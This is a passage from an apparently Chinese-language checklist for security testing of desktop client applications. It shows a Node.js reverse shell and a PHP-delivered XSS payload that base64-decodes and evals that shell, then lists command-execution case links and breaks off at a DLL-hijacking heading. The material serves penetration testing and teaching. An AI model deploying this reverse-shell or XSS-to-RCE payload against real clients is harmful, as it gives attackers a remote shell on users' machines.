 `var net = require("net"), sh = require("child_process").exec("cmd.exe");`

`var client = new net.Socket();`

`client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);`

`sh.stderr.pipe(client);});`

 

`<?php`

`header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");`

`?>`

![cs19](https://github.com/theLSA/cs-checklist/raw/master/demo/cs19.png)

相关参考

https://www.anquanke.com/post/id/176379

<br/> 

#### **命令执行**
<br/>
案例0-印象笔记windows客户端6.15本地文件读取和远程命令执行 

[http://blog.knownsec.com/2018/11/%E5%8D%B0%E8%B1%A1%E7%AC%94%E8%AE%B0-windows-%E5%AE%A2%E6%88%B7%E7%AB%AF-6-15-%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%92%8C%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/](http://blog.knownsec.com/2018/11/印象笔记-windows-客户端-6-15-本地文件读取和远程命令执行/)

<br/> 

案例1-某云pc客户端命令执行挖掘过程 

https://www.secpulse.com/archives/53852.html

<br/> 

案例2-金山WPS Mail邮件客户端远程命令执行漏洞(Mozilla系XUL程序利用技巧) 

https://shuimugan.com/bug/view?bug_no=193117

<br/> 

#### **逻辑缺陷**

测试点同web。

<br/>  

#### **密码明文传输** 

<br/> 

#### **DLL劫持**

Linux文件搜索顺序：

